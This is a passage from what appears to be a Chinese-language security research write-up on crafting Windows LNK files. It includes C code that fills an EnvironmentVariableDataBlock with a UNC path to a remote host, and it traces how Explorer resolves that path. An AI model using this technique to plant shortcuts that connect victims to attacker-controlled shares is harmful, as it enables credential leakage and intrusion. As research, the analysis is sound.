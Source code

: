 EnvironmentVariableDataBlock 看起来非常敏感，你必须将块大小设置为788字节（0x00000314），并且必须设置环境变量数据块的签名，即0xA0000001。  
  
一旦设置这些，就可以为TargetAnsi分配260字节的缓冲区大小，为TargetUnicode分配520字节的缓冲区大小，这就是稍后执行LNK时调用envPath的地方，并调用COMMAND_LINE_ARGUMENTS中的其余参数。在这种情况下，需要在LinkFlags中启用IsUnicode标志，这意味着我们的参数将以Unicode方式调用和执行。  
  
此处 envPath 是支持 UNC 的，我们可以直接调用所需的 UNC 路径，因此，当把变量 envUNC 赋给 UNC 路径时，我们必须在分配 TargetUnicode 空间时设置它。我们的 TargetUnicode 值将作为 UNC 路径的一部分包含在内。技术上，此代码使用其参数创建了带有UNC的EnvironmentVariableDataBlock。  
```
  const char* envUNC = "\\\\<IP Address Here>\\c";    DWORD envBlockSize = 0x00000314;    DWORD envSignature = ENVIRONMENTAL_VARIABLES_DATABLOCK_SIGNATURE;    if (!WriteFile(hFile, &envBlockSize, sizeof(DWORD), &bytesWritten, NULL)) {        printf("Failed to write env block size: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    if (!WriteFile(hFile, &envSignature, sizeof(DWORD), &bytesWritten, NULL)) {        printf("Failed to write env block signature: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    char ansiBuffer[260] = { 0 };    strncpy(ansiBuffer, envUNC, 259);    if (!WriteFile(hFile, ansiBuffer, 260, &bytesWritten, NULL)) {        printf("Failed to write TargetAnsi: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    WCHAR unicodeBuffer[260] = { 0 };    if (MultiByteToWideChar(CP_ACP, 0, envUNC, -1, unicodeBuffer, 260) == 0) {        printf("Failed to convert to Unicode: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }    if (!WriteFile(hFile, unicodeBuffer, 520, &bytesWritten, NULL)) {        printf("Failed to write TargetUnicode: %lu\n", GetLastError());        CloseHandle(hFile);        return1;    }
```  
  
如果我们编译程序并执行 LNK 构建器，我们会在 LNK 文件结构中看到类似这样的内容，并且我们的 EnvironmentVariableDataBlock 被分配了 UNC 路径：  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jngC9wEjt96d1gNwAVgUHNPeyUNicoeON5eudHfZxucibRbLEWKvkXOruuSiagYXSCCePRWZ1uIL6FLA/640?wx_fmt=png&from=appmsg "")  
  
file  
  
为了进一步理解，我们需要在资源管理器上下文中追踪解析的执行流程。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jngC9wEjt96d1gNwAVgUHNPvKJB2wjWX47QnXB7QRjpzDwm7QKto4B8gVYN0bcS7hhrozkDhRS1sQ/640?wx_fmt=png&from=appmsg "")  
  
file  
  
可以看到 Windows 将 UNC 路径分解为其组成部分，系统正在搜索反斜杠字符以将服务器名（192.168.44.128）与共享名（c）分开。  
  
这种解析对于确定如何访问网络资源至关重要，带有 SHGDN_FORPARSING 标志的这些调用表明 Windows 正在请求 shell 项的完整解析路径。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jngC9wEjt96d1gNwAVgUHNPW4vtcnmPxYb41SZictBMFaOdYjZWZrKrRb8EhCYE3agtSgojkPpd8zg/640?wx_fmt=png&from=appmsg "")  
  
file  
  
查询接口调用请求接口GUID {94727de2-b2ed-41b5-9eb5-0939ea9d0efc}，该GUID对应于IShellFolder2。此高级文件夹接口扩展了基本的IShellFolder接口，增加了以下功能：  
- 检索扩展属性信息  
  
- 管理资源管理器视图的列详细信息  
  
- 处理 shell 项的自定义属性 这个接口链（IInitializeNetworkFolder → IShellFolder2）揭示了 Windows 是如何建立一个分层抽象来处理网络资源的，每一层都增加了专门的功能。  
  
IInitializeNetworkFolder 是 Windows Shell API 中一个专门用于处理网络资源的 COM 接口。  
  
该接口是 Windows 内部架构的一部分，用于表示网络位置并与之交互，它可以初始化表示网络资源（共享、计算机、打印机）的 shell 文件夹对象。当你在资源管理器中访问网络资源时，会发生以下过程：  
- 资源管理器检测到你正在访问网络路径  
  
- 然后创建一个 shell 文件夹对象来表示此网络位置  
  